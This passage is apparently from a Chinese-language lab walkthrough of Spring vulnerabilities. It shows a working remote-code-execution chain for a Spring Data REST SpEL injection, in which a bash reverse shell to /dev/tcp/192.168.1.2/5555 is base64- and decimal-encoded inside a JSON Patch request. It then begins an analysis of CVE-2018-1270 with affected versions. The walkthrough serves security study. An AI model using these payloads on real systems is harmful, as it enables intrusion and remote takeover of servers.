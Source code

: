 ![](https://gitee.com/fuli009/images/raw/master/public/20210817101956.png)

这里先对`customers/1`这个页面bp抓包，还是通过bash反弹，通过处理后得到命令

    
    
    bash -i >& /dev/tcp/192.168.1.2/5555 0>&1bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}

因为这里执行的代码被编码为十进制位于new java.lang.String(new byte[]{xxxxxx})中，所以需要对bash命令转成十进制编码

使用python进行编码处理，在python中转十进制的方法为`",".join(map(str, (map(ord,"命令"))))`

    
    
    ",".join(map(str, (map(ord,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}"))))

![]()

得到十进制后放入bp包里面进行构造

    
    
    [    { "op": "replace",       "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,117,77,105,56,49,78,84,85,49,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname",      "value": "vulhub"     }]

构造后如图所示

![](https://gitee.com/fuli009/images/raw/master/public/20210817101957.png)

发包即可得到反弹shell

![](https://gitee.com/fuli009/images/raw/master/public/20210817101958.png)

# CVE-2018-1270

Spring Messaging 命令执行漏洞(CVE-2018-1270)，Spring框架中的  **spring-messaging**
模块提供了一种基于WebSocket的STOMP协议实现，STOMP消息代理在处理客户端消息时存在SpEL表达式注入漏洞，攻击者可以通过构造恶意的消息来实现远程代码执行。

## 影响版本

Spring Framework 5.0 - 5.0.5 Spring Framework 4.3 - 4.3.15

## 漏洞分析

由`expression`，`getValue`，`setValue`造成的代码执行，造成这种命令执行是由Spring的SPEL表达式造成的

![](https://gitee.com/fuli009/images/raw/master/public/20210817101959.png)

SPEL命令执行有两种方式，一是静态方法，二是new 对象

再看一下spring-boot-messaging实现中的代码
